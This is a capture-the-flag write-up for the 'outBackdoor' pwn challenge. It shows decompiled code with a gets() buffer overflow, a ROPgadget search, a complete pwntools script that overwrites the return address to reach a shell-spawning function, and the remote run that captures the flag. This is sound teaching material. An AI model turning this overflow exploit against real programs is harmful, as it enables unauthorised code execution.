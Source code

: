 # outBackdoor
**Category: Pwn**

Let's pop this into Ghidra:

```c
undefined8 main(void)

{
  char local_18 [16];
  
  buffer_init();
  puts("\nFool me once, shame on you. Fool me twice, shame on me.");
  puts("\nSeriously though, what features would be cool? Maybe it could play a song?");
  gets(local_18);
  return 0;
}

void outBackdoor(void)

{
  puts("\n\nW...w...Wait? Who put this backdoor out back here?");
  system("/bin/sh");
  return;
}
```

We'll make use of the vulnerable `gets` function to overflow `local_18` to the point where we can overwrite the `main` function's return address.

There's an extra note that we need to align the stack as part of our exploit. [Stackoverflow](https://stackoverflow.com/questions/60729616/segfault-in-ret2libc-attack-but-not-hardcoded-system-call) explains this, but the short version is that we need to add an extra `ret` to our payload to prevent a segfault.

ROPgadget can be used to find the address of a `ret` call:
```
$ ROPgadget --binary outBackdoor | grep ': ret'
0x0000000000401016 : ret
0x000000000040117a : ret 0xfffe
0x0000000000401062 : retf 0x2f
```

Final exploit:

```python
from pwn import *

context.binary = ELF('./outBackdoor')

if args.REMOTE:
    io = remote('pwn-2021.duc.tf', 31921)
else:
    io = process(context.binary.path)

buffer = b'A' * (16 + 8)
ret = p64(0x401016) # ret command found from ROPgadget
functionAddress = p64(context.binary.sym.outBackdoor)

io.sendline(flat(buffer, ret, functionAddress))
io.interactive()
```

```
$ ./exploit.py REMOTE
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to pwn-2021.duc.tf on port 31921: Done
[*] Switching to interactive mode

Fool me once, shame on you. Fool me twice, shame on me.

Seriously though, what features would be cool? Maybe it could play a song?


W...w...Wait? Who put this backdoor out back here?
$ ls
flag.txt
pwn
$ cat flag.txt
DUCTF{https://www.youtube.com/watch?v=XfR9iY5y94s}
```